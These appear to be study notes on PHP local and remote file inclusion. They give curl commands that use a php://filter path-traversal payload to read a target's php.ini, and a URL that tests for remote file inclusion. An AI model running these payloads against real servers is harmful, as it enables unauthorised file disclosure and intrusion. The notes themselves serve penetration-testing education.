 
You need to be able to upload a php file into a field we control and then use execute permissions to execute on that file.

allow_url_include is needed for various LFI attacks and all RFI attacks

We need to check for allow_url_include

Determine if allow_url_include is enabled (X.Y for php version)
```
/etc/php/X.Y/apache2/php.ini (Apache)
/etc/php/X.Y/fpm/php.ini (Nginx)
```

Reading config file with curl
```shell-session
curl "http://<SERVER_IP>:<PORT>/index.php?language=php://filter/read=convert.base64-encode/resource=../../../../etc/php/7.4/apache2/php.ini" (Apache)

curl "http://<SERVER_IP>:<PORT>/index.php?language=php://filter/read=convert.base64-encode/resource=../../../../etc/php/X.Y/fpm/php.ini"
```


At first, `we should always start by trying to include a local URL` to ensure our attempt does not get blocked by a firewall or other security measures. So, let's use (`http://127.0.0.1:80/index.php`) as our input string and see if it gets included

Testing for RFI with a local file
```http
http://<SERVER_IP>:<PORT>/index.php?language=http://127.0.0.1:80/index.php
```

